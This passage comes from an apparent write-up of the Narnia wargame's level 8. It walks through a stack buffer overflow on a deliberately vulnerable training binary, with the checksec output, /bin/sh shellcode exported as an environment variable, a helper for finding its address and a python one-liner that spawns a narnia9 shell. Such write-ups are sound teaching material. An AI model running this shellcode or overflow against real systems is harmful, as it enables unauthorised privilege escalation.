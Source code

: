 	return 0;
}
narnia8@narnia:/narnia$ ./narnia8
```
Interesting comment there :D.
The only difficult part about this level is knowing how to get over the overflow that would take place after ```i``` surpasses ```sizeof bok``` and starts overwriting the address stored in ```blah```. But, in order to do this, we just have to place there the address of ```argv[1]``` so that basically when overwriting, it wouldn't do a thing to our pointer.
```
narnia8@narnia:/narnia$ checksec narnia8
[*] '/narnia/narnia8'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
WOHOOO! We don't even have any mitigation enabled. Not having ```NX``` means we are free to use our shellcode! Let's just pass it to a environment variable:
```
narnia8@narnia:/narnia$ export EGG=$(echo -en "\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\x31\xc0\xb0\x0b\xcd\x80")
```
Right, now that we have it in our shell's environment we just need to find its address. Let's do that with the following C code:
```
narnia8@narnia:/narnia$ vim /tmp/getenv/getegg.c
```
```
#include <stdio.h>                                                                                                
#include <stdlib.h>
  
int main(int argc, char** argv)
{
    printf("env address at %p\n", argv[1], getenv(argv[1]));
    return (0);
}
```
```
narnia8@narnia:/narnia$ cd /tmp/getenv
narnia8@narnia:/tmp/getenv$ gcc -m32 -o getegg /tmp/getenv/getegg.c
narnia8@narnia:/tmp/getenv$ ./getegg EGG
env address at 0xffffd7e6
```

Let's also get the address of ```argv[1]```, which, according to the disassembly, is located at ```ebp - 0x4```. While running inside ```GDB```, I've noticed that for each byte my payload increases, the address decreases. So, since our payload will have 20 A's, address of ```argv[1]```, 4 A's as junk for ```ebp``` and ```EGG```'s address, we will have to substract 12!
Now, let's build our exploit!
```
narnia8@narnia:/narnia$ ./narnia8 $(python -c 'print "a" * 20 + "\xdb\xd7\xff\xff" + "a" * 4 + "\xe6\xd7\xff\xff"')
aaaaaaaaaaaaaaaaaaaa����aaaa��������
$ whoami
narnia9
$ cat /etc/narnia_pass/narnia9
```

## Level 9 ##
Congratulations! We have finished this wargame!
```
narnia9@narnia:~$ ls
CONGRATULATIONS
narnia9@narnia:~$ cat CONGRATULATIONS 